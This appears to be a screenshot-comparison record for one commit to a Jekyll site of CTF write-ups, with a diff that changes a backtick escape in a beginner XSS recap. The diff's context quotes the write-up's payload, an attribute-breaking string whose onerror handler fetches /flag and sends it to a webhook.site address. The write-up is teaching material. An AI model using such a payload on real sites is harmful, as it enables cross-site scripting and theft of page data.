

Before and after one commit to blairsec/writeups, a Jekyll site: the page built from _posts/2021-09-26-beginner-xss-recap.md, in a window 1280 px wide and 900 px high, scrolled down 3943 px. Shown: the part 152-471 px from the top of the window, without its empty margins (253-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2021-09-26-beginner-xss-recap.md
+++ b/_posts/2021-09-26-beginner-xss-recap.md
@@ -102,7 +102,7 @@ According to the source, when we create an image note our payload is inserted in
 
 This is really easy to escape. You only need to put a double quote to complete the `src="` and then you can define your own `onerror` handler.
 
-I used ~\`~ (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.
+I used \` (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.
 
 ```
 x" onerror='fetch(`/flag`).then(resp => resp.text().then(s => fetch(`https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=` + s)))' style="
````
